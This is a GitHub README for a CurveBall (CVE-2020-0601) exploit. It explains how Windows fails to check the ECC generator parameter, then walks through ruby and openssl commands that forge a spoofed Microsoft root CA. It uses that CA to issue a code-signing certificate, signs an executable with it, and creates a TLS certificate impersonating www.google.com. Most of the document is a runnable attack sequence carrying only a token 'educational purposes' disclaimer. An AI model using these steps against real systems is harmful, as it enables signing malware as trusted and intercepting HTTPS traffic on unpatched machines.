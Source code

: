 # CurveBall (CVE-2020-0601) - ECC/Po2 EXPLOIT

CVE-2020-0601, or commonly referred to as CurveBall, is a vulnerability in which the signature of certificates using elliptic curve cryptography (ECC) is not correctly verified. 

ECC relies on different parameters. Standardized parameters are used for many curves. However, Microsoft didn't check all these parameters like the geniuses they are... The parameter `G` (the generator) was NOT checked, and an attacker can therefore supply a hand-rolled generator, as such, when Microsoft tries to validate the certificate against a trusted CA, it'll only look for matching public keys, and then booooom, it will use the generator of the certificate. 

NSA clearly explains the devestating impact of this vulnerability and more [here](https://media.defense.gov/2020/Jan/14/2002234275/-1/-1/0/CSA-WINDOWS-10-CRYPT-LIB-20190114.PDF). Strap one on and get to it!

`MicrosoftECCProductRootCertificateAuthority.cer` is by default a trusted root certificate authority (CA) using ECC on Windows 10. Anything signed with this certificate will therefore automatically be trusted.  

Let it be said, :The are always watching... so      *Please use this for educational and researching purposes only.*

**Minimum requirements**
`openssl 1.1.0`
`ruby 2.4.0`

## Mathematical details
If you're interested in the mathematical details of the vulnerability, please read more [here](https://news.ycombinator.com/item?id=22048619).

In order to spoof the certificate, set the following parameters:

    d' = 1
    G' = Q
Such that `Q = Q' = d'G'`.

## Usage
Create a certificate with the same public key and parameters of a trusted CA. This will be used as our spoofing CA. Set the generator to a value, where you know the private key. You can easily set the generator to the public key, and have a private key set to `1`, since `Q = dG`.

Next up, you create a certificate signing request with the extensions you wish to use, e.g. code signing or server authentication.

Sign this certificate request with your spoofed CA and CA key, and add the usage extensions.

Bundle the signed certificate request (now a regular certificate) with the spoofed CA, and you have a signed and trusted certificate. 

When Windows checks whether the certificate is trusted, it'll see that it has been signed by our spoofed CA. It then looks at the spoofed CA's public key to check against trusted CA's. Then it simply verifies the signature of our spoofed CA with the spoofed CA's generator - this is the issue.

If you choose to open your newly and signed, trusted certificate in Windows, it'll not recognize it as trusted, since it hasn't been tied to anything, thus it will not use the spoofed CA. The certificate must always present itself with the spoofed CA.

## Code Signing
*Please use this for educational and researching purposes only.* 

Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key can be of any type you want. It will be used to create a code signing certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

    openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs
The only thing left is to pack the certificate, its key and the spoofed CA into a PKCS12 file for signing executables.

    openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12
Sign your executable with PKCS12 file.

    osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in 7z1900-x64.exe -out 7z1900-x64_signed.exe

## SSL/TLS
*Please use this for educational and researching purposes only.* 
Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key be of any type you want. It will be used to create a SSL certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

If you wish to change the domain name, edit `CN  = www.google.com` to `CN  = www.example.com` inside of `openssl_tls.conf`.

    openssl req -new -key cert.key -out cert.csr -config openssl_tls.conf -reqexts v3_tls
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_tls.conf -extensions v3_tls
You can now use `cert.crt`, `cert.key`, and `spoofed_ca.crt` to serve your content. Again, remember to add the spoofed_ca.crt as a certificate chain in your server's HTTPS configuration.

See the usage example in [https://github.com/IIICTECH/-CVE-2020-0601---ECC-/blob/master/tls/index.js).

*Please use this for educational and researching purposes only.*

